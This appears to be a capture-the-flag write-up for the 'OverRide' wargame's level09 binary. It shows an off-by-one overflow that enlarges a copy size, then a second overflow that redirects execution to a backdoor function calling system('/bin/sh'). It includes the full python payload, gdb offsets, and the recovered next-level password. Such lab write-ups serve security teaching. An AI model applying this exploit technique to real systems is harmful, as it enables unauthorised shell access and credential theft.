 Level09 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

Level09 rights:
```Shell
level09@OverRide:~$ ls -la level09 
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows us that:
- an unused `secret_backdoor` function is present which takes an input string and use it to execute a call to `system()`. Passing `/bin/sh` should open a shell.
- the program use the buffer address to store a message (string), the buffer address + 140 to store a username (string) and the buffer address + 180 as a size (int). So we can deduce that this is probably a structure:
```
    char    message[140];
    char    name[40];
    int     size;
```
- the size is used by strncpy to copy the user input  into message
- the set_username function copy 41 bytes in the string name which is 40 bytes. it is followed by size, so overflowing username allow us to modify the size.
So overflowing a first time to modify the size of the copy allow us to overflow a second time to modify `EIP` with the address of `secret_backdoor` to whom we will pass `/bin/sh` to be executed by `system()`.

Using a buffer overflow pattern, we search for the offset between the beginning of message variable and `EIP`.
We will use 40 bytes of padding and set the following bytes to `0xff`, the highest possible value for a byte, hoping it will be enough to overwrite `EIP`.
```Shell
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) p $rbp
$1 = (void *) 0x6741356741346741
```
We get a segmentation fault, but we can’t use its address with our tool, so we will use the address of `EBP` instead. We get an offset of 192; adding 8 bytes (the size of an address in 64-bit) gives us the offset to reach `EIP`, which is 200.

Using GDB we get the address of `secret_backdoor()` which is `0x55555555488c`:
```Shell
(gdb) p secret_backdoor
$4 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

So our payload will be:
- 40 bytes of padding follow by `0xff`.
- 200 bytes of padding followed by the address of `secret_backdoor`.
- the input for `secret_backdoor()`: `/bin/sh`.

```Shell
level09@OverRide:~$ python -c 'print("A" * 40 + "\xff" + "\n" + "B" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n" + "/bin/sh" + "\n")' > /tmp/payload9
level09@OverRide:~$ cat /tmp/payload9 - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```